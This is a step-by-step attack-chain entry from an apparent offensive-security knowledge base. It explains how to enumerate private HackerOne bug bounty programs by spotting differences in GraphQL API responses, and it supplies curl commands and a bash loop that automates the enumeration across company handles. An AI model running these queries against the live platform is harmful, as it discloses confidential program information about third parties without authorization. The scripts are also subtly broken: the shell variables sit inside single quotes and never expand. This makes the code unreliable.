

---
tags:
  - information-disclosure
  - graphql
  - hackerone
  - enumeration
  - private-program
type: attack_chain
tools: []
tactics:
  - '[[Reconnaissance]]'
commands:
  - '[[commands/query-hackerone-team-graphql]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Query-HackerOne-GraphQL-Team-Object]]'
step_count: 3
techniques:
  - '[[Search Open Websites-Domains]]'
updated_at: '2025-12-14T17:25:53.578Z'
description: >-
  Multi-stage attack chain exploiting inconsistent GraphQL API responses in
  HackerOne's Team object to disclose the existence of private bug bounty
  programs.
skill_level: intermediate
impact_level: high
id: 1dc3fd47-b557-4ddc-a630-635315100f20
validated: true
mitre_tactics:
  - '[[Reconnaissance]]'
mitre_techniques:
  - '[[Search Open Websites-Domains]]'
---
# Enumerate HackerOne Private Programs via GraphQL Information Disclosure

Multi-stage attack chain demonstrating how to exploit an information disclosure vulnerability in HackerOne's GraphQL API. By querying the 'i_cannot_create_jira_webhook_reasons' field on Team objects for various companies, attackers can observe response differences to determine if a company operates a private or public bug bounty program. The absence of 'FEATURE_GATED' in the response array indicates the presence of a program, enabling enumeration of sensitive program details across HackerOne's platform.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- None (uses standard HTTP client like curl)

### Target Environment

- HackerOne platform
- GraphQL API at https://api.hackerone.com/graphql
- Requires authenticated access (HackerOne account token)

### Initial Access Requirements

- Valid HackerOne API token (obtain via HackerOne profile settings)
- Network access to HackerOne's public API endpoints
- No prior access to target companies needed

## Detailed Attack Procedures

### Step 1: Query GraphQL for Team Object of a Company Without Private Program

procedure: [[procedures/Query-HackerOne-GraphQL-Team-Object]]

**Objective**: Retrieve the 'i_cannot_create_jira_webhook_reasons' field for a company known or assumed not to have a private program to establish a baseline response.

**Instructions**: Use [[commands/query-hackerone-team-graphql]] to query a test company handle (e.g., a company without programs). The response should include 'FEATURE_GATED' in the array.

```bash
TOKEN="your_hackerone_token" COMPANY="example-company-without-program"
curl -X POST -H "Content-Type: application/json" -H "Authorization: Bearer $TOKEN" -d '{"query":"query { team(handle: \"$COMPANY\") { i_cannot_create_jira_webhook_reasons } }"}' https://api.hackerone.com/graphql
```

**Expected Output**: JSON response with "i_cannot_create_jira_webhook_reasons": ["CANNOT_VIEW","FEATURE_GATED","PROGRAM_PERMISSION_REQUIRED"]

**Success Indicators**:
- Response contains 'FEATURE_GATED'
- No errors in GraphQL execution

### Step 2: Query GraphQL for Team Object of a Company With Private Program

procedure: [[procedures/Query-HackerOne-GraphQL-Team-Object]]

**Objective**: Query a company known or suspected to have a private program to observe the differing response.

**Instructions**: Repeat the query using [[commands/query-hackerone-team-graphql]] with a different company handle (e.g., one with a private program). Note the absence of 'FEATURE_GATED'.

```bash
TOKEN="your_hackerone_token" COMPANY="example-company-with-private-program"
curl -X POST -H "Content-Type: application/json" -H "Authorization: Bearer $TOKEN" -d '{"query":"query { team(handle: \"$COMPANY\") { i_cannot_create_jira_webhook_reasons } }"}' https://api.hackerone.com/graphql
```

**Expected Output**: JSON response with "i_cannot_create_jira_webhook_reasons": ["CANNOT_VIEW","PROGRAM_PERMISSION_REQUIRED"]

**Success Indicators**:
- Response lacks 'FEATURE_GATED'
- Array is shorter than baseline

### Step 3: Compare Responses to Identify Private Programs

procedure: [[procedures/Query-HackerOne-GraphQL-Team-Object]]

**Objective**: Analyze multiple query responses to enumerate companies running private or public programs.

**Instructions**: Script or manually compare responses from various company queries using [[commands/query-hackerone-team-graphql]]. Automate with a loop over company handles to flag those missing 'FEATURE_GATED'.

Example automation in bash:

```bash
#!/bin/bash
TOKEN="your_hackerone_token"
companies=( "company1" "company2" "company3" )
for company in "${companies[@]}"; do
  response=$(curl -s -X POST -H "Content-Type: application/json" -H "Authorization: Bearer $TOKEN" -d '{"query":"query { team(handle: \"$company\") { i_cannot_create_jira_webhook_reasons } }"}' https://api.hackerone.com/graphql)
  if [[ ! $response == *"FEATURE_GATED"* ]]; then
    echo "$company has a private/public program"
  fi
done
```

**Expected Output**: List of companies with private/public programs identified via missing 'FEATURE_GATED'.

**Success Indicators**:
- Companies without 'FEATURE_GATED' flagged
- Enumeration of sensitive program existence

## Attack Chain Summary

### Key Achievements

1. Baseline establishment for non-program companies
2. Detection of program existence via response differentials
3. Scalable enumeration of private programs on HackerOne

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Search Open Websites-Domains]]

### MITRE ATT&CK Tactics

- [[Reconnaissance]]

---
*Last updated: 2023-10-01T00:00:00Z*
